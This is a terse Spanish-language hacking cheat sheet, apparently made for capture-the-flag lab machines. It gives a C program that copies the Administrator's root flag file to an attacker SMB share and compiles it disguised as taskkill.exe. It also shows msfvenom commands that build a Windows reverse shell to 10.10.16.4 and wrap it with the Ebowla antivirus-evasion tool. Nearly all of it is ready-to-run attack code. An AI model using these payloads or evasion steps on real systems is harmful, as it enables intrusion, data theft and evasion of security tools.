 
# BYPASS C
### C (LOCAL) -> EXE (VICTIM MACHINE) ONLY ROOT FLAG
```SHELL
#CREAMOS ESTE SCRIPT EN C

#include <stdlib.h>
int main(){
  system("type C:\\Users\\Administrator\\Desktop\\root.txt > \\\\10.10.16.4\\smbFolder\\root.txt");
}

❯ x86_64-w64-mingw32-gcc test.c -o taskkill.exe
```

### C (LOCAL) -> EXE (VICTIM MACHINE) REVERSE SHELL
```SHELL
https://github.com/Genetic-Malware/Ebowla
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.4 LPORT=443 -f exe -o taskkill.exe
❯ mv taskkill.exe ./Ebowla
❯ nvim genetic.config
10 ~ │     output_type = GO
26 ~ │     payload_type = EXE
87 ~ │         username = ''
94 ~ │         userdomain = ''
❯ python ebowla.py taskkill.exe genetic.config
```
